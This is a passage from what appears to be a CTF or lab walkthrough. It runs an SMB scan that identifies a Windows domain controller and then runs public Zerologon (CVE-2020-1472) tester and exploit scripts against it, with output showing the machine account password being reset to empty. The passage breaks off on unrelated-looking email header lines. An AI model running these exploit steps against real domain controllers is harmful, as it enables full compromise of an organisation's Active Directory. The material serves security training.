 {{< highlight bash >}}
SMB 192.168.1.145   445GEOHOME-DC   [*] Windows 10.0 Build 17763 x64 (name:GEOHOME-DC) (domain:geohome.com) (signing:True) (SMBv1:False)
{{< /highlight >}}

We now have a domain controller name.


According to Wikipedia, Build 17763 was launched in Q4 2018; so it's a little bit old... Let's start to look for Active Directory vulns on cvedetails that match our findings.


While it's true that you could go ahead and try a vast list of vulns; I went the zerologon way (CVE-2020-1472); HackTheBox's Multimaster Machine was exploited the same way so why not reuse those concepts.

{{< highlight bash >}}
$ git clone https://github.com/zeronetworks/zerologon && cd zerologon/
{{< /highlight >}}


Let's run the tester script with our newly found Domain Controller Name:

{{< highlight bash >}}
$ python zerologon.py GEOHOME-DC 192.168.1.145
{{< /highlight >}}

Which yields:

{{< highlight bash >}}
Performing authentication attempts...
=========================================================================================================
Success! DC can be fully compromised by a Zerologon attack.
{{< /highlight >}}

Nice


Let's pwn it then.

{{< highlight bash >}}
$ git clone https://github.com/dirkjanm/CVE-2020-1472 && cd CVE-2020-1472/
{{< /highlight >}}


{{< highlight bash >}}
$ python cve-2020-1472-exploit.py GEOHOME-DC 192.168.1.145
{{< /highlight >}}


{{< highlight bash >}}
Performing authentication attempts...
================================================================================================================================================================================================================================================================================================================================================================================================================================
Target vulnerable, changing account password to empty string


[EmailTo]: eescalera@geohome.com
[EmailFrom]: ffuertes@geohome.com
[Subject]: Instagram